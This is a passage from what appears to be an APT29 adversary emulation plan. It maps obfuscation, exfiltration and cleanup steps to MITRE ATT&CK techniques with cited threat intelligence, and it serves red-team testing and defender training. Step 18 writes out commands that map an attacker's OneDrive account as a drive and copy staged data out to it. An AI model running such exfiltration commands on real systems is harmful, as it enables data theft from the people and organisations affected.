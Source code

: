 ##### 17.C - Obfuscated Files or Information ([T1027](https://attack.mitre.org/techniques/T1027/))

1. Load `stepSeventeen_zip.ps1`
2. Execute `zip C:\Windows\Temp\WindowsParentalControlMigration.tmp C:\Windows\Temp\WindowsParentalControlMigration`

#### Cited Intelligence

* Open Invitation Contributors: Kaspersky, Microsoft

* APT29 has used the legit Microsoft DLL and PowerShell to interact with Exchange Web Services (EWS) for email theft.<sup> [7](https://www.fireeye.com/blog/products-and-services/2019/02/state-of-the-hack-no-easy-breach-revisited.html) </sup>

* POSHSPY can appended a file signature header to all encrypted data prior to upload or download.<sup> [10](https://www.fireeye.com/blog/threat-research/2017/03/dissecting_one_ofap.html) </sup>

---

### Step 18 - Exfiltration

The attacker maps a local drive to an online web service account ([T1102](https://attack.mitre.org/techniques/T1102/)) then exfiltrates the previous staged data to this repository ([T1048](https://attack.mitre.org/versions/v6/techniques/T1048/) / [T1567.002](https://attack.mitre.org/techniques/T567/002/)).

#### Procedures

##### 18.A - Exfiltration Over Alternative Protocol ([T1048](https://attack.mitre.org/versions/v6/techniques/T1048/) / [T1567.002](https://attack.mitre.org/techniques/T567/002/))

1. Get CID for OneDrive account (<https://www.laptopmag.com/articles/map-onedrive-network-drive>)
2. Execute `net use y: https://d.docs.live.net/[CID] /user:[OneDrive account]@outlook.com "[OneDrive password]"`
3. Execute `Copy-Item "C:\Windows\Temp\WindowsParentalControlMigration.tmp" -Destination "Y:\WindowsParentalControlMigration.tmp"`
4. Login to <https://onedrive.live.com/?id=root&cid=[CID>] to see exfil (`WindowsParentalControlMigration.tmp`)

#### Cited Intelligence

* Open Invitation Contributors: Kaspersky, Microsoft, SentinelOne

* CloudDuke can use a Microsoft OneDrive to exchange stolen data with its operators.<sup> [1](https://www.f-secure.com/documents/996508/1030745/dukes_whitepaper.pdf),[5](https://www.slideshare.net/MatthewDunwoody1/no-easy-breach-derby-con-2016) </sup>

---

### Step 19 - Clean Up

The attacker deletes various files ([T1107](https://attack.mitre.org/versions/v6/techniques/T1107/) / [T1070.004](https://attack.mitre.org/techniques/T1070/004/)) associated with that access by reflectively loading and executing the Sdelete binary ([T1055](https://attack.mitre.org/versions/v6/techniques/T1055/) / [T1055.002](https://attack.mitre.org/techniques/T1055/002/)) within powershell.exe.
